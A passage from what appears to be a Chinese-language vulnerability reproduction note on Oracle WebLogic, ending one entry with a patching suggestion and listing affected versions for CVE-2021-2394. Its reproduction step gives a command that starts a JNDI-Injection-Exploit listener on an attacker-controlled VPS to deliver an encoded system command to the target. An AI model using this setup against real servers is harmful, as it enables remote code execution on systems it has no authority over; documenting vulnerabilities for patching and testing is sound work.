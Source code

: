 ![Dingtalk_20220324111748](.\image\Dingtalk_20220324111748.jpg)

修复建议：

1、及时安装weblogic修复补丁。

### CVE-2021-2394

影响版本：

Oracle WebLogic Server 10.3.6.0

Oracle WebLogic Server 12.1.3.0

Oracle WebLogic Server 12.2.1.3

Oracle WebLogic Server 12.2.1.4

Oracle WebLogic Server 14.1.1.0

漏洞复现：

vps使用JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar开启JNDI监听。

vps执行：java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash编码后的系统命令" -A vpsIP
